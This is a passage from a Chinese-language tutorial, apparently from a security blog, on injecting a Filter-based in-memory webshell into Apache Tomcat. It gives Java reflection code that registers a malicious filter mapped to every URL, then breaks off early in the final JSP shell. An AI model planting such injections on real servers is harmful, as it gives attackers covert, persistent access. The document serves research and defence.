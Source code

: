 利用反射创建 FilterConfig，并且将 filterDef 和 standardCtx（即 Context）作为参数进行传入

```java
 Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
 constructor.setAccessible(true);
 ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);
```

向filterConfigs调用Map.put传入即可

```java
filterConfigs.put(name,filterConfig);
```

#### 创建一个新的filterMap将URL跟filter进行绑定，并添加到filterMaps中

FilterMap类同样有几个set方法，我们需要设定名称、pattern，还需要设置Dispatcher，这里我们设置`DispatcherType.REQUEST.name()`即可

![image-20220817011250623](images/image-20220817011250623.png)

FilterMaps提供了两种add方法来添加map，addFilterMap和addFilterMapBefore，选用before可以将filtermap 添加到 filterMaps 中的第一个位置

```java
 FilterMap filterMap = new FilterMap();
 filterMap.addURLPattern("/*");
 filterMap.setFilterName(name);
 filterMap.setDispatcher(DispatcherType.REQUEST.name());

standardContext.addFilterMapBefore(filterMap);
```

需要注意的是这里用到的 `javax.servlet.DispatcherType`类是servlet 3 以后引入的，而 Tomcat 7以上才支持 Servlet 3

#### 内存马实例

最终内存马

```jsp
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
  final String name = "Snakin";
```